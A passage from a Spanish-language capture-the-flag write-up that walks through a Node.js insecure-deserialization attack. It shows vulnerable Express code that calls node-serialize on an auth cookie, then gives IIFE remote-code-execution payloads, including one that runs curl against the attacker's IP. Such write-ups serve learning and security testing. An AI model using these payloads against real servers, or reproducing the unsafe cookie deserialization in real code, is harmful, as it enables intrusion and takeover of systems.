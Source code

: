 ```js
        return false
    }
}


app.get('/', async (req, res) => {
    const articles = await Article.find().sort({
        createdAt: 'desc'
    })
    res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
})

app.use('/articles', articleRouter)
app.use('/login', loginRouter)


app.listen(5000)
```

Si analizamos un poco el codigo, observamos que utiliza esta librería:
```js
const serialize = require('node-serialize')
```
Y está esta función:
```js
function authenticated(c) {
    if (typeof c == 'undefined')
        return false

    c = serialize.unserialize(c)

    if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
        return true
    } else {
        return false
    }
}
```

Que recibe un parámetro c del usuario, la cual después compara con el resultado de la función hash para autenticar el usuario. Por lo tanto, está comparando las cookies para iniciar la sesión desserializando la data que le llega desde el usuario. Esto abre la posibilidad del ataque de desserialización, pues lo que podemos hacer es mandarle una data maliciosa que se va a serializar y mandar al servidor web, cuando este llegue va a ser desserializado, sin embargo, antes de que lo haga haremos que ejecute la acción que les estamos diciendo o el comando que mandamos de manera maliciosa a través de un bug en **nodejs** (IIFE).

Si buscamos en la web tenemos esta [web](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) que nos dice la forma de enviar data serializada para injectar comandos, especificamente es esta:

```
{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
Sin embargo el que enviaremos será este:
```
{"rce":"_$$ND_FUNC$$_function (){ require('child_process').exec('curl 10.10.14.17', function(error, stdout, stderr) { console.log(stdout) });}()"}
```
Enviando una petición http hacia nuestro equipo, vamos a tener abierto un servidor http con python para aquello. Hay que tener encuenta que la data viaja en url enconde, por lo tanto, vamos a aplicarselo a nuestra data:
